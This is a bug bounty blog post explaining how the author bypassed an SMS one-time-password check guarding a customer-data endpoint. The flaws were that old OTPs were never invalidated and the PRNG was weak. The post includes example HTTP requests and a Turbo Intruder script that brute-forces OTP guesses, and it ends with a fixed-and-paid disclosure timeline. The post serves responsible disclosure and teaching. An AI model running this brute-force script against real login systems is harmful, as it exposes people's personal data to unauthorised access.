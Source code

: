 ```yaml
---
title: Bypassing SMS OTP Authentication or a story behind $16.5k in bounties
description: SMS OTPs are often seen as a secure authentication method, but what if they aren't? In this post, I break down how I reverse-engineered an OTP mechanism, leveraged probability theory, and achieved a 32% bypass success rate—exposing weak PRNGs and poor OTP management along the way leading to a 100% bypass success rate
slug: playing-with-sms-otps
date: 2025-02-04 00:00:00+0000
image: cover.jpeg
categories:
    - Bug Bounty
tags:
    - Bug Bounty
    - CSPRNG
    - OTP
weight: 1       # You can add weight to some posts to override the default sorting (date descending)
---
```


It's common to see SMS OTPs used for authentication, but bypassing them is not always trivial. In this post, we'll explore such an exploitation scenario by reverse engineering a black-box functionality, applying probability theory and analyzing entropy.

This is my first blog post ever, so I'd appreciate any feedback via any channel you find appropriate.
## Prologue

I discovered a simple PII disclosure vulnerability on an endpoint that returned customer data based on a provided phone number. The customer data included name, surname, email, phone number, full location, birth date, nationality, ID card or passport number. 

Example request:
```http
POST /retrieve-customer-data HTTP/2
Host: redacted.example.com

phonenumber=9999999
```

![Example of the leaked data](result.png)

The functionality was only there to autofill user forms. The team initially patched an issue straightforwardly by returning only a boolean value whether or not the phone number exists in the database, which I verified. 

However, three days later, developers reintroduced this feature with an additional security layer: requiring a user to provide an SMS OTP in order to retrieve data related to the phone number.

Sounds to be secure, but ...

## Exploiting Weak SMS OTP Implementations

Now, retrieving data required the following two requests: first requesting an OTP, then entering a 4-digit random OTP to retrieve the same data as before.

```http
POST /request-otp HTTP/2
Host: redacted.example.com

phonenumber=9999999
```

```http
POST /retrieve-customer-data HTTP/2
Host: redacted.example.com

phonenumber=9999999&otp=1111
```

The first things I thought about and tested were:
* Not sending an OTP
* Sending a `null` OTP
* Sending `0000` OTP
* Sending an OTP in different data types like arrays 
* Including both a body and query parameter for OTP
* Changing request method
* Changing content types and trying again with different data types
* Attempting to retrieve data without requesting an OTP

Eventually, I tested how many attempts we have before the OTP is invalidated by simply trying first sending one wrong request and then a right OTP, then two, then three wrong requests, and then I understood that the OTP is invalided on the 4th request to `/retrieve-customer-data`.

At this stage, guessing OTPs with a probability of 0.3% is already great, but can we do better?

Sure, while looking for a way to reset a counter of failed attempts, I have found that one can do this by requesting a new SMS message, which generates a new OTP, thus giving us three more attempts. In fact, we can only send 50 SMS messages for a phone number. Now, the setup is much better. 

If you take a look at a pseudo code I reverse-engineered for this feature, you probably might notice a problem.

```python
fail_count_map = dict()   ## 9999999 -> int
phone_to_otp = dict()     ## 9999999 -> list(int)/set(int)
phone_to_max_sms = dict() ## 9999999 -> int


def send_sms(phone_number):
	if phone_to_max_sms[phone_number] > 50:
		return 429_TO_MANY_SMS_MESSAGES_SENT
	OTP = generate_and_send_SMS_OTP()
	phone_to_otp[phone_number].append(OTP)
	fail_count_map[phone_number] = 0
	phone_to_max_sms[phone_number] = phone_to_max_sms[phone_number] + 1
	
def get_data(phone_number, otp):
	if otp in phone_to_otp[phone_number]:
		return GET_USER_DATA(phone_number)
	fail_count_map[phone_number] = fail_count_map[phone_number] + 1
	if fail_count_map[phone_number] > 3:
		# CLEAR OTPS

```

If you indeed noticed - congrats; if not, take a look at lines 2 and 15 - indeed SMS messages are not invalidated once we send a new one, they are simply kept in a structure similar to a set or list, thus each time we exceed our three `/retrieve-customer-data` requests and send a new `/request-otp` request we double our chances for the next three guesses.

For example:
* First 3 guesses with probabilities of 1/10000, 1/9999, 1/9998
* Next 3 guesses with probabilities of 2/9997, 2/9996, 2/9995
* Next 3 guesses with probabilities of 3/9994, 3/9993, 3/9992

After 50 OTP requests, the success rate reached ~**32%**.

Finally, a cherry on top - while testing, I accumulated a few thousand SMS messages, did a simple distribution fitting and found that the most frequent group was 7000-7150. For the PoC, I chose to guess this range and wrote the following Turbo Intruder script.

```
send_sms = """here goes your HTTP request"""

def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=100,
                           pipeline=False
                           )
    code = 7000
    for i in range(50):
        engine.queue(send_sms)
        time.sleep(2.0)
        for k in range(3):
            engine.queue(target.req, str(code))
            code += 1
    

def handleResponse(req, interesting):
    if req.status != 404:
        table.add(req)
```

The PoC worked 5 out of 5 times, which led to a conclusion that they might be using a non-cryptographically secure PRNG. It was just an educated guess, but later, the company confirmed that their provider used a non-cryptographically secure PRNG.



## Conclusion

Apart from basic takeaways such as checking for not invalidated OTPs or brainstorming and checking ideas, the following stood out for me:
* Block time somewhere in the future to verify fixes and find bypasses,  even if the fix was confirmed
* Try to "reverse engineer" the logic behind it and write it in code more often. I found it to be helpful to brainstorm further ideas.
* Don't forget about non-cryptographically secure PRNGs and check them more often. (distribution fitting, etc.)

## Timeline

* Overall, less than 12 hours of work were spent on this issue, including reporting and communication with the team.
* 11.11.2024 - First issue reported
* 11.11.2024 - First issue fixed
* 11.11.2024 - Fix verified
* 22.11.2024 - ~11000$ bounty paid
* 29.11.2024 - Second issue reported
* 03.12.2024 - OTP Invalidation issue fixed
* 17.12.2024 - PRNG issue fixed
* 16.01.2025 - Fix confirmed
* 23.01.2025 - ~5500$ bounty paid


